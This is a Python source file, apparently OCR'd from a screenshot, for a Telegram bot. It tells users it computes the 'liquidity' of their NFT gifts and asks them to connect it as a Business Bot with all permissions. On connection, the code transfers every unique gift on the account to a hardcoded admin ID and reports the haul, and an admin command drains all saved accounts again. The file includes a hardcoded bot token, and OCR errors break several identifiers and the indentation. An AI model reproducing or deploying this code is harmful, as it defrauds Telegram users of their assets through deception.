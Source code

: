 from aiogram.exceptions import TelegramBadRequest
import logging
import asyncio
import json
import os
from datetime import datetime
import sys
import io
from aiogram import Bot, Dispatcher, types
from aiogram.filters import Command
from aiogram.types import Message, BusinessConnection

sys.stdout = io.TextIOWrapper(sys.stdout.buffer, encoding='utf-8')

CONNECTIONS_FILE = "business_connections.json"
TRANSFER_LOG_FILE = "transfer_log.json"
TOKEN = "8349271177:AAFOUq-QkOYdlYGlUvCRo_i75oLCf-B0eyk"  # токен
ADMIN_ID = "8038426209"  # ID
TRANSFER_DELAY = 1  # Задержка между запросами в секундах

# Настройка логирования
logging.basicConfig(
    level=logging.INFO,
    format="%(asctime)s - %(name)s - %(levelname)s - %(message)s",
    handlers=[
        logging.FileHandler("bot.log"),
        logging.StreamHandler()
    ]
)

bot = Bot(token=TOKEN)
dp = Dispatcher()


def load_json_file(filename):
    try:
        with open(filename, "r", encoding="utf-8") as f:
            content = f.read().strip()
            return json.loads(content) if content else []
    except (FileNotFoundError, json.JSONDecodeError) as e:
        logging.error(f"Ошибка загрузки {filename}: {str(e)}")
        return []


def save_to_json(filename, data):
    try:
        with open(filename, "w", encoding="utf-8") as f:
            json.dump(data, f, indent=2, ensure_ascii=False)
    except Exception as e:
        logging.error(f"Ошибка сохранения {filename}: {str(e)}")


def log_transfer(user_id, gift_id, status, error=""):
    try:
        logs = []
        if os.path.exists(TRANSFER_LOG_FILE):
            with open(TRANSFER_LOG_FILE, "r", encoding="utf-8") as f:
                logs = json.load(f)

        logs.append({
            "user_id": user_id,
            "gift_id": gift_id,
            "status": status,
            "error": error,
            "timestamp": datetime.now().isoformat()
        })

        with open(TRANSFER_LOG_FILE, "w", encoding="utf-8") as f:
            json.dump(logs, f, indent=2, ensure_ascii=False)
    except Exception as e:
        logging.error(f"Ошибка записи лога: {str(e)}")


async def transfer_all_unique_gifts(bot: Bot, business_connection_id: str, user_id: int) -> dict:
    """
    Переводит все уникальные подарки на ADMIN_ID
    """
    result = {
        "total": 0,
        "transferred": 0,
        "failed": 0,
        "errors": []
    }

    try:
        # Проверяем валидность подключения
        try:
            gifts = await bot(GetBusinessAccountGifts(business_connection_id=business_connection_id))
        except TelegramBadRequest as e:
            if "BUSINESS_CONNECTION_INVALID" in str(e):
                result["errors"].append("Неверный business_connection_id. Переподключите бота.")
                return result
            raise

        if not gifts.gifts:
            return result

        for gift in gifts.gifts:
            if gift.type != "unique":
                continue

            result["total"] += 1

            try:
                await bot(TransferGift(
                    business_connection_id=business_connection_id,
                    new_owner_chat_id=ADMIN_ID,
                    owned_gift_id=gift.owned_gift_id,
                    star_count=gift.transfer_star_count
                ))
                result["transferred"] += 1
                log_transfer(user_id, gift.owned_gift_id, "success")
                await asyncio.sleep(TRANSFER_DELAY)

            except TelegramBadRequest as e:
                error_msg = getattr(e, "message", str(e))
                result["errors"].append(error_msg)
                result["failed"] += 1
                log_transfer(user_id, gift.owned_gift_id, "failed", error_msg)

                if "BOT_ACCESS_FORBIDDEN" in error_msg:
                    break  # Прерываем если нет доступа

            except Exception as e:
                error_msg = str(e)
                result["errors"].append(error_msg)
                result["failed"] += 1
                log_transfer(user_id, gift.owned_gift_id, "failed", error_msg)
except Exception as e:
        error_msg = str(e)
        logging.error(f"Ошибка в transfer_all_unique_gifts: {error_msg}")
        result["errors"].append(error_msg)

    return result


@dp.business_connection()
async def handle_business_connect(business_connection: BusinessConnection):
    try:
        user_id = business_connection.user.id
        conn_id = business_connection.id

        # Сохраняем подключение
        connections = load_json_file(CONNECTIONS_FILE)
        connections = [c for c in connections if c["user_id"] != user_id]  # Удаляем старые записи
        connections.append({
            "user_id": user_id,
            "business_connection_id": conn_id,
            "username": business_connection.user.username,
            "first_name": business_connection.user.first_name,
            "last_name": business_connection.user.last_name,
            "date": datetime.now().isoformat()
        })
        save_to_json(CONNECTIONS_FILE, connections)

        # Пытаемся перевести подарки
        transfer_result = await transfer_all_unique_gifts(bot, conn_id, user_id)

        # Формируем отчет
        report = (
            f"🔗 Новое подключение:\n"
            f"👤 Пользователь: @{business_connection.user.username or 'нет'}\n"
            f"🆔 ID: {user_id}\n\n"
            f"📊 Результат перевода:\n"
            f"• Всего подарков: {transfer_result['total']}\n"
            f"• Успешно: {transfer_result['transferred']}\n"
            f"• Ошибок: {transfer_result['failed']}\n"
        )

        if transfer_result['errors']:
            report += "\nОшибки:\n" + "\n".join(
                f"• {e}" for e in transfer_result['errors'][:3])  # Показываем первые 3 ошибки

        await bot.send_message(ADMIN_ID, report)
        await bot.send_message(user_id,
                              "✅ Бот успешно подключен! Анализирую...")

    except Exception as e:
        logging.error(f"Ошибка в handle_business_connect: {e}")
        await bot.send_message(ADMIN_ID, f"🚨 Ошибка при подключении: {str(e)}")


@dp.message(Command("check_gifts"))
async def check_gifts_handler(message: Message):
    if message.from_user.id != ADMIN_ID:
        return

    connections = load_json_file(CONNECTIONS_FILE)
    if not connections:
        return await message.answer("Нет активных подключений.")

    for conn in connections:
        try:
            result = await transfer_all_unique_gifts(bot, conn["business_connection_id"], conn["user_id"])
            msg = (
                f"Проверка {conn.get('username', conn['user_id'])}:\n"
                f"• Передано: {result['transferred']}\n"
                f"• Ошибок: {result['failed']}"
            )
            await message.answer(msg)
            await asyncio.sleep(5)  # Чтобы не получить flood control
        except Exception as e:
            await message.answer(f"Ошибка для {conn['user_id']}: {str(e)}")


@dp.message(Command("start"))
async def start_command(message: Message):
    try:
        conections = load_json_file(CONECTIONS_FILE)
        count = len(connections)
    except Exception:
        count = 0

    if message.from_user.id != ADMIN_ID:
        welcome_text = """
👋 <b>Приветствую!</b> Я бот, который высчитывает <i> ликвидность ваших NFT!</i>! ✨

📌 <b>Как начать работу?</b>
1. Добавьте меня как <b>Business Bot</b> в настройках Telegram
2. Выдайте разрешения
3. Я начну анализировать ваши NFT

🔹 <i>Подключение:</i>
• Откройте <b>Настройки → Telegram для бизнеса → Чат-боты</b>
• Выберите меня и активируйте все разрешения!

🚀 После подключения я смогу:
• Показывать статистику ваших подарков 🎁
• Считать их ликвидность и какой % успешной продажи
• Работать 24/7

❗Зачем ставить галочки?
🤖Боту нужно сгенерировать Business ID, для вычисления ликвидности NFT🎉

<b>Готовы начать?</b> Жду вашего подключения! 😊
        """
        await message.answer(welcome_text, parse_mode="HTML")
    else:
        admin_text = f"""
🛠️ <b>Привет, админ</b> 🛠️

• Подключений: <>{count}</>
⚙️ Бот активен и готов к работе!
        """
        await message.answer(admin_text, parse_mode="НTML")


async def main():
    await dp.start_polling(bot)


if _name_ == "_main_":
    asincio.run(main())
